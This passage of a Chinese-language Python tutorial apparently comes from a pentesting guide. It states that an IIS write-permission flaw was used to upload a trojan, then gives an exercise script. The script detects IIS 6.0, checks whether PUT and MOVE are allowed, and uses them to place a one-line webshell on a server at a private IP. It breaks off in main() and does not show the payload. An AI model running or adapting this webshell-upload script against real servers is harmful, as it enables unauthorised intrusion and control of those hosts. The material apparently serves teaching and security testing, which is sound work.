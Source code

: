 ⾄此，使⽤python获取IIS写权限漏洞，并上传⽊⻢⽂件成功。后⾯可以使⽤链接⼯具去进⾏测试，因为本篇主讲python，这⾥不再演示链接⼯具的使⽤。

#### 练习

```python
import requests


def get_response(url):
    """发送GET请求并返回响应对象"""
    resp = requests.get(url)
    return resp


def print_status_and_headers(resp):
    """打印HTTP状态码和头部信息"""
    if resp.status_code in [200, 201]:
        print("当前IIS服务正在运行")
    print("打印响应体的headers：", resp.headers)


def check_iis_version(resp):
    """检查IIS版本是否为6.0"""
    server_header = resp.headers.get("Server", "")
    if "Microsoft-IIS/6.0" in server_header:
        print("当前服务器IIS版本为6.0")


def options_response(url):
    """发送OPTIONS请求并返回响应对象"""
    resp = requests.options(url)
    return resp


def print_options_headers(resp):
    """打印OPTIONS请求的响应头部信息"""
    print("打印响应体的headers:", resp.headers)


def check_put_move_vulnerability(resp):
    """检查是否存在PUT和MOVE漏洞"""
    public = resp.headers.get("Public", "")
    allow = resp.headers.get("Allow", "")
    if "PUT" in public and "MOVE" in public or "PUT" in allow and "MOVE" in allow:
        print("当前IIS服务器可能存在PUT和MOVE的漏洞")


def put_file(url, headers, payload):
    """尝试使用PUT方法上传文件"""
    resp = requests.put(url=url, headers=headers, data=payload)
    if resp.status_code in [200, 201]:
        print("向IIS服务器上传文件成功")


def move_file(url, headers, payload):
    """尝试使用MOVE方法移动文件"""
    resp = requests.request(method="MOVE", url=url, headers=headers, data=payload)
    if resp.status_code == 207:
        print("向IIS服务器上传一句话木马成功")


def main():
    url = "http://192.168.70.6/index.html"

```